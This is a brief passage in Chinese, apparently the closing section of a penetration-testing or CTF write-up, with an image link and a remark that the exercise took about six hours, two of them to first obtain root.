

<del>一切尽在不言中。</del>

---

## 其他

用时约 6h，其中第一次得到 root 账号用时 2h
